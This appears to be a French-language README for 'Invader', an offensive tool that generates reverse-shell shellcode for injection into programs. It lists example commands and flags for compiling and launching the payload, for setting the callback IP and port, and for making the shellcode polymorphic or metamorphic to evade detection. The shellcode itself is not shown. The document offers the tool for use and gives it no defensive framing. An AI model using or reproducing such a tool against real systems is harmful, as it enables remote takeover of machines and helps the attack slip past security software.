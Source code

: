 # Invader
         ____  ____   __ __   ____  ___      ___  ____  
        |    ||    \ |  |  | /    ||   \    /  _]|    \ 
         |  | |  _  ||  |  ||  o  ||    \  /  [_ |  D  )
         |  | |  |  ||  |  ||     ||  D  ||    _]|    / 
         |  | |  |  ||  :  ||  _  ||     ||   [_ |    \ 
         |  | |  |  | \   / |  |  ||     ||     ||  .  \\
        |____||__|__|  \_/  |__|__||_____||_____||__|\_|

Création automatique d'un reverse shell (via shellcode) à injecter dans un programme (exemple C directement disponible dans le git).
Il y a la possibilité de changer l'ip et le port du reverse shell et de rendre le shell métamorphique et/ou polymorphique.

<---------------------------------------- EXEMPLES ---------------------------------------->  
Exemple : python ./final/py/invader.py -s ./final/asm/fnl_reverse_shell.asm                                     # Retourne le shellcode  
Exemple : python ./final/py/invader.py -c ./final/c/fnl_reverse_shell.c                                         # Compile et lance le programme c  
Exemple : python ./final/py/invader.py -c -s ./final/asm/fnl_reverse_shell.asm                                  # Compile et lance le programme avec le shellcode du fichier asm  
Exemple : python ./final/py/invader.py -p 4444 -s ./asm/fnl_reverse_shell.asm                                   # Retourne le shellcode du fichier en changeant le port  
Exemple : python ./final/py/invader.py -i 127.0.0.1 -s ./final/asm/fnl_reverse_shell.asm                        # Retourne le shellcode du fichier en changeant l'ip  
Exemple : python ./final/py/invader.py -c -s ./final/asm/fnl_reverse_shell.asm -i 127.0.0.1 -p 4444             # Compile et lance le programme avec le shellcode du fichier.asm en changeant l'ip et le port  
Exemple : python ./final/py/invader.py -c -s ./final/asm/fnl_reverse_shell.asm -i 127.0.0.1 -p 4444 -v -M -P    # Compile et lance le programme avec le shellcode du fichier.asm en changeant l'ip et le port avec le polymorphisme et le metamorphisme activé  
<---------------------------------------- EXEMPLES ---------------------------------------->  
  
<------------------------------------------ HELP ------------------------------------------>  
-h Affiche ce message  
-e Affiche des exemples de commandes  
-v Active le mode verbosité  
-vvv Active le mode haute verbosité (objdump)  
-s Création de lu shellcode  
-c compile un fichier.c et le lance  
-i Changement de l'ip dans le shellCode  
-p Changement du port dans le shellCode  
-M Activation du metamorphisme du shellcode  
-P Activation du polymorphisme du shellcode  
<------------------------------------------ HELP ------------------------------------------>  
